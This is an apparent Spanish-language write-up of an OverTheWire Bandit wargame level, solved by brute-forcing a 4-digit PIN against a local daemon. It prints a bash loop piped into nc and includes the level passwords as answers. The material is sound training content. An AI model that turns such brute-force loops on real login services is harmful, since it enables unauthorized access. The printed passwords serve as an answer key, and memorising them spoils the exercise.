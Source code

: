 ## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
## Datos de acceso al nivel
bandit24
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
## Solución
```
bandit24@bandit:~$ nc -v localhost 30002 
Connection to localhost (127.0.0.1) 30002 port [tcp/*] succeeded!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 123 
Wrong! Please enter the correct pincode. Try again. VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 987 
Wrong! Please enter the correct pincode. Try again. 
^C 
bandit24@bandit:~$ for i in {0000..0003}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i ; done UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003 bandit24@bandit:~$ 
for i in {0000..9999}; 
do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v 
Wrong I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space. 
Correct! The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d Exiting.
```
## Notas adicionales

## Referencias